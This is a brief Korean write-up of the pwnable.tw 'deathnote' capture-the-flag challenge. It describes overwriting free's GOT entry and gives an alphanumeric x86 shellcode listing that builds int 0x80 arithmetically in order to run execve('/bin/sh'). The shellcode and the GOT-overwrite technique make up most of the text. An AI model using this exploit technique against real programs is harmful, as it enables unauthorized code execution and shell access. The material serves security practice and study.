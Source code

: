 # pwnable.tw_deathnote
#alpha_numeric shellcode  
free의 got 값을 바꾸어 free가 실행될 때, 쉘코드가 실행되게 한다.  
이때, 인자로 /bin/sh의 문자열을 넣어주어 /bin/sh는 해결해준다  
이제 80바이트로 쉘코드를 만들어주어야 한다.  
eax: 0xb   
ebx: /bin/sh의 주소가 들어간다  
edx와 ecx에는 널바이트  
int 0x80 호출  

가장 큰 문제는 int 0x80이다. => 직접 만들어주기는 힘들기 때문에 연산과정을 거쳐 만들어준다.  
0x80cd=32973=9*99*37+6  

push eax  
pop ecx  
inc ebx  
inc ebx  
inc ebx  
inc ebx  
inc ebx  
inc ebx  
inc ebx  
inc ebx  
inc ebx  
xor [ecx+0x78],ebx  
imul edx, [ecx+0x78], 99  
xor [ecx+0x78],ebx  
xor [ecx+0x78],edx  
imul ebx, [ecx+0x78], 37  
xor [ecx+0x78],edx  
inc ebx  
inc ebx  
inc ebx  
inc ebx  
inc ebx  
inc ebx  
xor [ecx+0x78],ebx  
push eax  
pop ebx  
imul edx,[eax+0x70],32  
imul ecx,[eax+0x70],32  
imul eax,[eax+0x70],32  
inc eax  
inc eax  
inc eax  
inc eax  
inc eax  
inc eax  
inc eax  
inc eax  
inc eax  
inc eax  
inc eax   

jmp to int 0x80
